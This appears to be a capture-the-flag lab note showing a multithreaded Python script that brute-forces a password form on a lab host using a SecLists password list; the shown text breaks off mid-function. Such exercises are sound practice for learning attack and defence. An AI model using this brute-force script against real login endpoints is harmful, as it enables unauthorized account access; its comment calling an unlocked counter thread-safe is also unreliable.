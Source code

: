 # Question
---

![](images/Pasted%20image%2020250213135222.png)

Let's modify the script to make it faster:

```python
import requests
from concurrent.futures import ThreadPoolExecutor
import time

ip = "94.237.53.18"
port = 42926
MAX_THREADS = 50  # Optimal for network I/O bound tasks
BATCH_SIZE = 100  # Number of passwords to process before reporting progress

# Create a persistent session with connection pooling
session = requests.Session()
adapter = requests.adapters.HTTPAdapter(pool_connections=MAX_THREADS, pool_maxsize=MAX_THREADS)
session.mount('http://', adapter)

# Get password list with timeout and retry logic
passwords = []
try:
    resp = session.get(
        "https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt",
        timeout=10
    )
    passwords = resp.text.splitlines()
except Exception as e:
    print(f"Failed to fetch passwords: {str(e)}")
    exit(1)

found_flag = None
attempt_count = 0
start_time = time.time()

def test_password(password):
    global found_flag, attempt_count
    if found_flag:
        return
    
    try:
        # Stream response to handle large responses efficiently
        with session.post(
            f"http://{ip}:{port}/dictionary",
            data={'password': password},
            timeout=5,
            stream=True
        ) as response:
            if response.ok:
                json_response = response.json()
                if 'flag' in json_response:
                    found_flag = (password, json_response['flag'])
    
    except Exception as e:
        pass  # Silent error handling for speed
    
    # Thread-safe counter update and progress reporting
    attempt_count += 1
    if attempt_count % BATCH_SIZE == 0:
```